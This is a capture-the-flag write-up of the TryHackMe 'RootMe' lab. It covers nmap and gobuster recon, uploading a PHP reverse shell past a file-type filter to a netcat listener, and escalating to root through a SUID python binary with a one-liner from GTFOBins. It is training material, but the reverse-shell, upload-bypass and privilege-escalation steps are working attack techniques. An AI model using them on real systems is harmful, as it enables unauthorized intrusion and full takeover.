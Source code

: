 # RootMe
> 4lch3my | March 07, 2023
-------------------
#### This is a machine that allows you to practise web app hacking and privilege escalation
#### [Room Link](https://tryhackme.com/room/rrootme)

## Tasks
##### 1. Deploy the machine
  Deploy the machine with the Start Machine button, also either deploy your [Attack Box](https://tryhackme.com/access) OR Connect to [OpenVPN](https://tryhackme.com/access) and deploy your personal KALI machine.

##### 2. Reconnaissance

This is where the basics of recon comes into play. To start, I use [nmap] which is default option on the perosnal Kali install I have. We start with a basic command
  `nmap -sC -sV -A MACHINE_IP `
The -sC flag runs scripts against open ports as well to determine if there are external/common vulnerabilities that we can use outright. The -sV probes all open ports it finds to determine if we can get the service/version information. -A outputs in agressive mode, so we can follow along with the commands and enumeration.
  In our NMAP results we get:
```
Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-06 19:52 CET
Nmap scan report for 10.10.117.20
Host is up (0.050s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 4ab9160884c25448ba5cfd3f225f2214 (RSA)
|   256 a9a686e8ec96c3f003cd16d54973d082 (ECDSA)
|_  256 22f6b5a654d9787c26035a95f3f9dfcd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: HackIT - Home
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.96 seconds
```
From this [nmap] scan we can determine that 2 port are open: [SSH] on port 22 and a [http] webserver on port 80. Lets start with the webserver enumeration.
<br>

Gobuster is my go-to enum tool, the setup instructions for it can be found [here]. Let's run a basic scan against our machine: `gobuster dir -u http://MACHINE_IP/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`
This might take a while to run, but we can see the outpot below:
```
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://MACHINE_IP/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Timeout:                 10s
===============================================================
2023/03/06 19:54:35 Starting gobuster in directory enumeration mode
===============================================================
/uploads              (Status: 301) [Size: 314] [--> http://MACHINE_IP/uploads/]
/css                  (Status: 301) [Size: 310] [--> http://MACHINE_IP/css/]
/js                   (Status: 301) [Size: 309] [--> http://MACHINE_IP/js/]
/panel                (Status: 301) [Size: 312] [--> http://MACHINE_IP/panel/]
Progress: 35498 / 220561 (16.09%)^C
[!] Keyboard interrupt detected, terminating.

===============================================================
2023/03/06 19:57:33 Finished
===============================================================
```
We have found multiple directory listings from the [gobuster] search. Let's look at them one by one:
<br>

`/panel` contains an upload form where we can choose a file, and upload it.
![alt text](https://github.com/4lch3my/WriteUps/blob/main/TryHackMe/TryHackMe%20-%20RootMe/images/upload.png?raw=true)
Let's try to upload a [PHP reverse shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php). In the default configuration I have set the `$port` to `1234` and the `$ip` to the IP of our connection IP (this can be seen in the top right corner on the TryHackMe room page in a green bubble). In the mean time, we will open a [netcat] listener with option `-lvp` in a new terminal tab: `nc -lvp 1234`. 

![alt text](https://github.com/4lch3my/WriteUps/blob/main/TryHackMe/TryHackMe%20-%20RootMe/images/fail.png?raw=true)

##### 3. Getting a shell

Hmmm, it seems like no PHP files can be uploaded. We can either manually test with other file types (example: .php5, .phtml, .php.html) or we can use [sAjibuu's Upload Bypass](https://github.com/sAjibuu/upload_bypass/) repo to automate the process. If manually uploadign we can visit `MACHINE_IP/uploads/` to see the uplaoded files and if we use the automated process, we see that our [netcat] listener has cought a shell by itself.

```
Listening on [0.0.0.0] (family 0, port 1234)
Connection from MACHINE_IP 45998 received!
Linux rootme 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 20:23:11 up  1:32,  0 users,  load average: 0.05, 0.01, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$
```

Now we finally can start looking for the first flag in `user.txt`.
<br>

First command to is: `find / -type f -name user.txt`. This will look for a `file` containing `user.txt` in the name. And after a quick second ot two, we see our readable file right in the middle:
```
find: '/proc/1671/fd': Permission denied
find: '/proc/1671/map_files': Permission denied
find: '/proc/1671/fdinfo': Permission denied
find: '/proc/1671/ns': Permission denied
/var/www/user.txt
find: '/var/spool/rsyslog': Permission denied
find: '/var/spool/cron/atjobs': Permission denied
find: '/var/spool/cron/crontabs': Permission denied
find: '/var/spool/cron/atspool': Permission denied
```
To get the file contens we can `cat`-it out:

![alt text](https://github.com/4lch3my/WriteUps/blob/main/TryHackMe/TryHackMe%20-%20RootMe/images/user.png?raw=true)

##### 3. Privilege escalation

As we are on the machine, we can start looking at some files and permissions what we can abuse. Let's run the `find / -user root -perm /4000` command, to determine if there are any visible for us from the get-go. 
```
find: '/snap/core/8268/var/spool/rsyslog': Permission denied
/snap/core/9665/bin/ping6
/snap/core/9665/bin/su
/snap/core/9665/bin/umount
/usr/bin/python
find: '/snap/core/9665/etc/chatscripts': Permission denied
```
Now we know that python can be run on this machine and maybe we can use it to escalate our priviledges. We can use [GTFOBins](https://gtfobins.github.io/) to check on this.
![alt text](https://github.com/4lch3my/WriteUps/blob/main/TryHackMe/TryHackMe%20-%20RootMe/images/gtfo.png?raw=true)
<br>

![alt text](https://github.com/4lch3my/WriteUps/blob/main/TryHackMe/TryHackMe%20-%20RootMe/images/gtfo_2.png?raw=true)
Now let's run it against the root user: `python -c ‘import os; os.execl(“/bin/sh”, “sh”, “-p”)’`
<br>

![alt text](https://github.com/4lch3my/WriteUps/blob/main/TryHackMe/TryHackMe%20-%20RootMe/images/root.png?raw=true)

And there we go, we are `root` ! We can grab the flag now!


#### Thank you for checking out my writeup about the THM room: RootMe! If you are interested in other writeups of mine or interetsed in some of my codeing work, please feel free to look around my GitHub page! Happy hacking! - 4lch3my